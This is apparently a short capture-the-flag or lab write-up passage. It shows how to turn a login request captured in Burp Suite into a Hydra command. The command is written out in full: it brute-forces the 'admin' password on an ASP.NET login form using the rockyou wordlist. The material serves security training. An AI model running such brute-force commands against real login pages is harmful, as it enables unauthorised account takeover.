 ![burpsuite](screenshots/burpsuite1.png)

Use the bottom part of what was captured to craft the Hydra command:

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.121.14 http-post-form "/Account/login.aspx:__VIEWSTATE=JRvn7jllcivHkBJAmDoT7XrkY4odZaLWNiSHQolbcHLa5JhcacnCECqzeB97cHBbRPEVr2yoRWmx8mySWRPMo%2FimGQ7T65b9Rs4wgiulSey%2F6RmnOM%2Bsf%2B%2FU2TAUb2RCrBoRplAXmvgFsGW2Oi%2FUJMj4dFFY8TcmAnh4o%2BvQblFHUjfMa3hQrVVPo4rxFXkR8CQkBU8STfyLJ0sFRSpM2UP6%2FV2%2FG6UuQbzy2bIwnzLux6JZLyrEWMmw%2BT9r8gU68MTSF1aNwc93N2CCOQYWZXUaQyOz52BMI24rZV4VmRKlTQZ9bO8u14mKnH%2FwHdjW%2FXnVuExSLxTEd4nEe%2BGFdDrHEoMC3XMVVCtbZZKc2dB1MdUB&__EVENTVALIDATION=2%2FzPQNxvcA%2FfIbEbHWPY37iUqqvLrz5aQjddwl5L9kmomYz6tTy0Qdthksd0OA0gyS1gQhKe8U4m0rxAsRLkH8Zj2Yjx1JtcG78gOKYIRWyvaYLwGn62MzProJcneNHwbJFtl0Zqjh4kGOPGdpV0pqsFUyvQ2TY1cY3qdmFi5cPKT%2FC5&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"

![hydraresult](screenshots/hydraresult.png)
